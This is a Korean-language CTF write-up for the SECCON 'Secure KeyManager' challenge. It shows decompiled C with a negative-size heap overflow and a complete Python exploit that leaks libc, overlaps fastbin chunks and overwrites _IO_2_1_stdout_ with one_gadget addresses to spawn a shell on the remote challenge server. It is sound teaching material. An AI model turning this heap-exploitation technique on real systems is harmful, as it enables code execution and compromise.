

Secure KeyManager 400 (Solver : 36)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE             |
|---------------|--------------|------------|--------|----------|------------|------------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | Securekeymanager | 

x64 바이너리이다.

### 2. Vulnerability
```c
int add_key()
{
  int result; // eax
  __int64 v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+0h] [rbp-10h]
  unsigned int v3; // [rsp+4h] [rbp-Ch]
  char *v4; // [rsp+8h] [rbp-8h]

  LODWORD(v1) = 0;
  while ( v1 <= 7 && key_map[v1] )
    LODWORD(v1) = v1 + 1;
  if ( v1 > 7 )
    return puts("can't add key any more...");
  puts("ADD KEY");
  printf("Input key length...", v1);
  v3 = getint();
  v4 = malloc(v3 + 0x20LL); // v3 -> -32
  if ( !v4 )
    return puts("can not allocate...");
  printf("Input title...");
  getnline(v4, 32LL); // Heap Overflow!!
  printf("Input key...");
  getnline(v4 + 32, v3);
  key_list[v2] = v4;
  result = v2;
  key_map[v2] = 1;
  return result;
}
```
malloc을 할때 일부로 0바이트를 할당하도록 유도한다음, heap overflow를 내면 다음 청크의 사이즈까지 덮을 수 있다.

### 3. Exploit

Size 조작이 가능하므로 0x70 Chunk를 이용하여 Chunk Overlap을 낸다음 fastbin의 fd를 overwrite하여 exploit 하면 된다. (Edit 에서 32보다 더 큰값을 쓸 수 있는것을 이용)

```python
from ntpwn import *

#s = process('./secu', LIBC('./libc-2.23.so'))
l = ELF('./libc-2.23.so')
s = remote('secure_keymanager.pwn.seccon.jp',47225)
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

def add(key_len, title, key):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)
	s.sendlineafter('...',key)

def negative_add(key_len, title):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)

def remove(target):
	s.sendlineafter('>> ','4')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)

def edit(target,context):
	s.sendlineafter('>> ','3')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)
	s.sendlineafter('...',context)

prompt = '>> '

pause()

s.sendlineafter(prompt,'A')
s.sendlineafter(prompt,'1')

s.sendlineafter(prompt,'9')
s.sendlineafter(prompt,'A' * 24)

s.recv(33)
libc_base = u64(s.recv(6) + '\x00' * 2) - 0x3c560a
oneshot = libc_base +0x4526a

log.info('LIBC_BASE : ' + hex(libc_base))
log.info('ONESHOT : ' + hex(oneshot))

negative_add('-32','A')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
remove('0')
negative_add('-32',"A" * 0x18 + p64(0xe1)[:-1])
remove('1')
remove('2')
add(str(0xd8-32),'A' * 0x10 ,'1')
edit('1','B' * 0x48 + p64(0x70) + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0x9d))

add(str(0x68-32),'A' * 0x10 ,'1')

payload = '\x00' * 0x2a + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0xc0)
payload += p64(libc_base + l.symbols['_IO_2_1_stdout_'])
payload += p64(oneshot) * 5

pause()
negative_add(str(0x68-32), payload)

s.interactive()

s.sendlineafter('>> ','1')
s.sendlineafter('...','A')


s.interactive()
```
### 4. Flag

